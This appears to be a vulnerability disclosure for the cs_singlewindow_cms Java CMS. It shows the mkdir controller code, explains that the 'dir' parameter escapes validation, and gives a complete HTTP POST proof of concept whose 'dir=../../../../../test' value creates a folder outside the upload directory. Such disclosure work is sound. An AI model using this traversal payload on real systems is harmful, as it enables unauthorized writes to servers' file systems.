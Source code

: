 **BUG_Author:**

hadagaga

**Vendor:**

https://github.com/xitaofeng/cs_singlewindow_cms

**Software:**

https://github.com/xitaofeng/cs_singlewindow_cms

**Vulnerability File:**

#### src/main/java/com/jspxcms/core/web/back/WebFileUploadsController.java

Controller:

```java
	@RequiresPermissions("core:web_file_2:mkdir")
	@RequestMapping(value = "mkdir.do", method = RequestMethod.POST)
	public String mkdir(String parentId, String dir, HttpServletRequest request, HttpServletResponse response,
			RedirectAttributes ra) throws IOException {
		return super.mkdir(parentId, dir, request, response, ra);
	}
```

Function implementation:

```java
	protected String mkdir(String parentId, String dir, HttpServletRequest request, HttpServletResponse response,
			RedirectAttributes ra) throws IOException {
		Site site = Context.getCurrentSite();
		parentId = parentId == null ? "" : parentId;
		String base = getBase(site);

		if (StringUtils.isBlank(parentId)) {
			parentId = base;
		}
		if (!Validations.uri(parentId, base)) {
			throw new CmsException("invalidURI");
		}
		FileHandler fileHandler = getFileHandler(site);
		boolean success = fileHandler.mkdir(dir, parentId);
		if (success) {
			logService.operation("opr.role.add", parentId + "/" + dir, null, null, request);
			logger.info("mkdir file, name={}.", parentId + "/" + dir);
		}
		ra.addFlashAttribute("refreshLeft", true);
		ra.addAttribute("parentId", parentId);
		ra.addFlashAttribute(MESSAGE, success ? OPERATION_SUCCESS : OPERATION_FAILURE);
		return "redirect:list.do";
	}
```

​	This code is in a new folder in the upload file, and after auditing, I found that although there is an interception here, the interception object is the parentId. The DIR is not intercepted, so we can construct the following packet.

```http
POST /cmscp/core/web_file_2/mkdir.do HTTP/1.1
Host: 172.21.87.148:8888
Content-Length: 25
Cache-Control: max-age=0
Origin: http://172.21.87.148:8888
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.21.87.148:8888/cmscp/core/web_file_2/list.do
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: select_id=%2F1; open_ids=%2F1; _site=1; JSESSIONID=CA7DD070F74CFE10991C0475CE82606D
Connection: close

parentId=%2F1&dir=../../../../../test
```

​	You can create a test folder in the root path of your project.

![image-20241210114831516](img/image-20241210114831516.png)